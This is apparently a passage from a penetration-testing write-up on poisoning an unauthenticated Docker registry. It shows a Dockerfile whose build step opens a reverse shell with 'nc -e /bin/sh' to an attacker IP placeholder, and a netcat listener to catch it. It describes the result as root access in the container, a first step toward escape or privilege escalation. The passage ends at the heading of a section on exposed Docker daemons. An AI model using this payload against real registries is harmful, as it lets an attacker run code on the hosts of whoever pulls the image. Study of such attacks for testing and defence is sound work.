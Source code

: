 ![Dive image from port 7000](../.res/2023-07-22-16-45-30.png)

## Uploading Malicious Docker Images

Without proper authentication, we can upload our own image to the target's registry. That way, the next time the owner runs a `docker pull` or `docker run` command, their host will download and execute our malicious image as it will be a new version for Docker.  

- Dockerfile that will connect to our machine with netcat

```yml
FROM debian:jessie-slim

RUN apt-get update -y
RUN apt-get install netcat -y
RUN nc -e /bin/sh <ATTACKING-MACHINE-IP> 8080
```

We compile this into an image with docker build . Once compiled and added to the vulnerable registry, we set up a listener on our attacker machine and wait for the new image to be executed by the target.

- `rlwrap nc -lvnp 8080`

This way we will get access as root to the container. The next step will be to try to escape the container or privesc one way or another.

## RCE via Exposed Docker Daemon
